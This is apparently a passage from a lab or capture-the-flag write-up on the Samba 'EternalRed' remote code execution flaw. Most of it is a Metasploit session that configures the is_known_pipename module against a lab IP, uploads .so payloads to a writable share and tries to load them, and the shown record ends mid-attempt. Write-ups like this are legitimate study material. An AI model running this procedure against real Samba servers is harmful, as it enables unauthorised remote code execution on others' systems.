 This Remote Code Execution is named **EternalRed**. Much like the EternalBlue exploit that was released in April 2017 after being stolen from the NSA, Samba was discovered to have a remote code execution vulnerability as well.  Dubbed ‘EternalRed’ by industry-types, this vulnerability dates as far as 2010. So even if you chose the red pill thinking Linux was a safer alternative, for 7 years you were just as vulnerable as those using Windows. Samba version 3.5.0, the version that introduced the flaw, was released in March 2010. The bug causing this vulnerability is in the is_known_pipename() function.
After these info I tried the [exploit](https://www.exploit-db.com/exploits/42060/) but I didn't be able to do work with it. So I opened metasploit and I launched the exploit:

```plaintext
msf > search CVE-2017-7494

Matching Modules
================

   Name                                   Disclosure Date  Rank       Description
   ----                                   ---------------  ----       -----------
   exploit/linux/samba/is_known_pipename  2017-03-24       excellent  Samba is_known_pipename() Arbitrary Module Load


msf > use exploit/linux/samba/is_known_pipename
msf exploit(is_known_pipename) > show options 

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOST                            yes       The target address
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf exploit(is_known_pipename) > set RHOST 192.10.2.11
RHOST => 192.10.2.11
msf exploit(is_known_pipename) > set RPORT 139
RPORT => 139
msf exploit(is_known_pipename) > set payload cmd/unix/interact 
payload => cmd/unix/interact
msf exploit(is_known_pipename) > exploit

[*] 192.10.2.11:139 - Using location \\192.10.2.11\tmp\ for the path
[*] 192.10.2.11:139 - Retrieving the remote path of the share 'tmp'
[*] 192.10.2.11:139 - Share 'tmp' has server-side path '/var/tmp
[*] 192.10.2.11:139 - Uploaded payload to \\192.10.2.11\tmp\zRrNqqmD.so
[*] 192.10.2.11:139 - Loading the payload from server-side path /var/tmp/zRrNqqmD.so using \\PIPE\/var/tmp/zRrNqqmD.so...
[-] 192.10.2.11:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.10.2.11:139 - Loading the payload from server-side path /var/tmp/zRrNqqmD.so using /var/tmp/zRrNqqmD.so...
[-] 192.10.2.11:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.10.2.11:139 - Uploaded payload to \\192.10.2.11\tmp\BKkqCUEZ.so
[*] 192.10.2.11:139 - Loading the payload from server-side path /var/tmp/BKkqCUEZ.so using \\PIPE\/var/tmp/BKkqCUEZ.so...
```